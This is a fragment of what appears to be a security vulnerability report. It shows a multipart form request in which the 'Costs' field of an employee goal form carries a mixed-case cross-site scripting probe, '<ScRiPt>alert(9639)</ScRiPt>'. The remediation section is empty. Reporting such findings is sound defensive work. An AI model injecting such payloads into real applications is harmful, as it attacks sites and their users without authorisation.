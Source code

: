 
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="goal[1][Purpose]"


------------YWJkMTQzNDcw
Content-Disposition: form-data; name="goal[1][Fulfillment]"


------------YWJkMTQzNDcw
Content-Disposition: form-data; name="goal[1][Costs]"

1<ScRiPt>alert(9639)</ScRiPt>
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="employeeComments"

1
------------YWJkMTQzNDcw--

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
